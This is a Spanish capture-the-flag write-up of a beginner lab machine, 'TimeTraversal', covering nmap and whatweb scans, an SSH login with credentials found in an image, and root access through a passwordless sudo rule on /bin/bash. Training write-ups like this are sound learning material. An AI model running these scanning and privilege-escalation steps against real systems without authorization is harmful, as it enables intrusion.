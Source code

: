 ```yaml
---
layout: post
title: TimeTraversal
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
thumbnail-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
share-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
author: Elmili72
---
```


<img width="227" height="222" alt="image" src="https://github.com/user-attachments/assets/ce9c451f-14bf-4521-8d9b-f0c115414357" />

## Escaneo general de puertos

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 17:41:06 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:fe:8d:4e:47:c9:95:40:bb:10:89:be:b8:a1:ef:03 (ECDSA)
|_  256 80:1c:dd:6a:c7:b5:8f:93:70:a7:32:83:e3:1e:7e:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TIME LUXURY WATCHES
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento de Servicio Web

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[TIME LUXURY WATCHES]
```

<img width="1780" height="658" alt="Pasted image 20250623174409" src="https://github.com/user-attachments/assets/6482564f-151b-4c4e-a716-30203186e040" />

<img width="506" height="68" alt="Pasted image 20250623174419" src="https://github.com/user-attachments/assets/07ed0c4e-ff7e-4da0-834c-b3566ac34ed7" />

Aquí cualquiera puede pensar, pues bueno intentamos enumerar directorios con LFI para intentar exfiltrar el archivo */etc/passwd*. Pues nuestro amigo y venico Yerman nos tiene una sorpresa jejejej.

<img width="475" height="421" alt="Pasted image 20250623175407" src="https://github.com/user-attachments/assets/0b2495c6-ac5f-4e6e-a63a-f976bfa46ce0" />

No diré en que imagen se encuentras las credenciales jijiji.

## Explotación

### Intrusión

```bash
❯ ssh pablo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:KN2v7mhMbB2KMFDXfIyBZ3RSeXTGDTEQXnLuzqc2OhU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
pablo@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.12.25-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 20 12:13:26 2025 from 172.17.0.1
pablo@5f93963c4c51:~$ whoami
pablo
pablo@5f93963c4c51:~$ id
uid=1001(pablo) gid=1001(pablo) groups=1001(pablo)
```

## Post-Explotación

### Escalada de Privilegios

```bash
pablo@5f93963c4c51:~$ sudo -l
Matching Defaults entries for pablo on 5f93963c4c51:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 5f93963c4c51:
    (ALL) NOPASSWD: /bin/bash
```

```bash
pablo@5f93963c4c51:~$ sudo /bin/bash -p
root@5f93963c4c51:/home/pablo# whoami
root
root@5f93963c4c51:/home/pablo# id
uid=0(root) gid=0(root) groups=0(root)
root@5f93963c4c51:/home/pablo# cd /root
root@5f93963c4c51:~# cat mirasoyroot.txt 
Felicidades!!! Lo has conseguido.
Si eres de los tres pirmeros en 
completar la maquina enviame una 
captura de esto y te pondre en el
podio de la web.
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
